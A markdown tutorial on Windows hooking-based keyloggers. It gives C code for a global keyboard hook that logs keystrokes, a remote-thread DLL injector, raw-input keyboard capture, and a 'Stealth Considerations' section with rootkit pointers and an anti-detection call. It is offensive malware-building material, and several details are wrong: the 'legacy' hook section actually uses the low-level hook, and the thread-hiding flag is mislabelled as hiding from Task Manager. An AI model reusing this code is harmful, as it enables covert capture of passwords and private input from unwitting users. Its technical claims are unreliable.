 # Hooking-Based Keyloggers

Hooking-based keyloggers intercept keyboard input at the OS level by injecting code into the message processing chain. 

## Core Concepts

### 1. Windows Message Processing
Windows uses a message queue system where:
- Keyboard events generate `WM_KEYDOWN`/`WM_KEYUP` messages
- Messages flow: Hardware → Kernel → User-space applications

### 2. Hooking Methods

#### a. WH_KEYBOARD Hook (Legacy)
```c
HHOOK g_hHook = NULL;   // HHOOK is a handle (pointer-like) to a hook instance in Windows.

// KeyboardProc is a callback function, meaning Windows will call it automatically whenever a keyboard event happens.
LRESULT CALLBACK KeyboardProc(int nCode, WPARAM wParam, LPARAM lParam) {
    if (nCode >= 0) { // Ensures the hook procedure processes only valid hook events.
        if (wParam == WM_KEYDOWN) {

            KBDLLHOOKSTRUCT* pKey = (KBDLLHOOKSTRUCT*)lParam;  
            // This structure contains detailed information about the keyboard event, such as the key code, scan code, flags, etc.

            // typedef struct {
            //   DWORD     vkCode;      // Virtual key code
            //   DWORD     scanCode;    // Hardware scan code
            //   DWORD     flags;       // Extended key, injected, etc.
            //   DWORD     time;        // Timestamp
            //   ULONG_PTR dwExtraInfo; // Additional info
            // } KBDLLHOOKSTRUCT;

            printf("Key: 0x%X\n", pKey->vkCode);  
        }
    }
    return CallNextHookEx(g_hHook, nCode, wParam, lParam); // Returning the value from CallNextHookEx is important for proper hook behavior.
}

// SetHook() calls SetWindowsHookEx, registers your KeyboardProc function as a low-level keyboard hook.
// This tells Windows: When any keyboard event occurs, run KeyboardProc.
void SetHook() {
    g_hHook = SetWindowsHookEx(WH_KEYBOARD_LL, KeyboardProc, NULL, 0);

    // WH_KEYBOARD_LL: Hook type — low-level keyboard hook that works globally across all threads.
    // KeyboardProc: Pointer to the callback function handling key events.
    // NULL: Module handle for the DLL containing the hook procedure.
    // NULL means the hook procedure is in the current process (must be the case for WH_KEYBOARD_LL).
    // 0: Thread ID — zero means hook is for all threads globally.
    // The function returns a hook handle stored in g_hHook.
    // If it returns NULL, hook installation failed (you should check and handle errors).
}
```


#### Current Windows Restrictions (as of 2023)

- Secure Desktop:

   Low-level hooks blocked on login/password screens

- UI Automation:

   Requires SetProcessDpiAwarenessContext for proper functioning

- User Consent:

   Windows 10+ shows warning indicators for global hooks



---


#### b. WH_KEYBOARD_LL (Low-Level, Modern)
- Works across processes
- Doesn't require DLL injection
- Sample:
```c
HHOOK g_hHook = NULL;

LRESULT CALLBACK LowLevelKeyboardProc(int nCode, WPARAM wParam, LPARAM lParam) {
    if (nCode == HC_ACTION) {
        KBDLLHOOKSTRUCT* pKey = (KBDLLHOOKSTRUCT*)lParam;
        if (wParam == WM_KEYDOWN) {
            // Your logging logic here
        }
    }
    return CallNextHookEx(g_hHook, nCode, wParam, lParam);
}
```

## Advanced Techniques

### 1. DLL Injection for System-Wide Hooking
```c
// In DLL:
__declspec(dllexport) LRESULT CALLBACK HookProc(int nCode, WPARAM wParam, LPARAM lParam) {
    // Keylogging logic
    return CallNextHookEx(NULL, nCode, wParam, lParam);
}

// In injector:
void InjectDLL(DWORD pid, const char* dllPath) {
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    LPVOID pDllPath = VirtualAllocEx(hProcess, NULL, strlen(dllPath)+1, MEM_COMMIT, PAGE_READWRITE);
    WriteProcessMemory(hProcess, pDllPath, dllPath, strlen(dllPath)+1, NULL);
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, 
        (LPTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle("kernel32"), "LoadLibraryA"), 
        pDllPath, 0, NULL);
    WaitForSingleObject(hThread, INFINITE);
    CloseHandle(hThread);
    CloseHandle(hProcess);
}
```

### 2. Direct Input Capture
```c
// Using Raw Input API
RAWINPUTDEVICE rid;
rid.usUsagePage = 0x01; // Generic Desktop
rid.usUsage = 0x06;     // Keyboard
rid.dwFlags = RIDEV_INPUTSINK;
rid.hwndTarget = hWnd;
RegisterRawInputDevices(&rid, 1, sizeof(rid));

// Window procedure
case WM_INPUT: {
    UINT size;
    GetRawInputData((HRAWINPUT)lParam, RID_INPUT, NULL, &size, sizeof(RAWINPUTHEADER));
    LPBYTE lpb = malloc(size);
    GetRawInputData((HRAWINPUT)lParam, RID_INPUT, lpb, &size, sizeof(RAWINPUTHEADER));
    RAWINPUT* raw = (RAWINPUT*)lpb;
    if (raw->header.dwType == RIM_TYPEKEYBOARD) {
        // Process keyboard event
    }
    free(lpb);
}
```

## Stealth Considerations

1. **Rootkit Techniques**:
   - DKOM (Direct Kernel Object Manipulation)
   - SSDT Hooking (Kernel-mode)

2. **Anti-Detection**:
```c
// Hide from Task Manager
typedef NTSTATUS(NTAPI* pNtSetInformationThread)(HANDLE, ULONG, PVOID, ULONG);
pNtSetInformationThread NtSIT = (pNtSetInformationThread)GetProcAddress(GetModuleHandle("ntdll"), "NtSetInformationThread");
if (NtSIT) {
    ULONG hide = 1;
    NtSIT(GetCurrentThread(), 0x11 /*ThreadHideFromDebugger*/, &hide, sizeof(hide));
}
```

## Modern Defenses

1. **PatchGuard** (x64 systems):
   - Blocks kernel hooking
   - Requires signed drivers

2. **Secure Input**:
   - Windows 10+ protected processes
   - Credential UI isolation


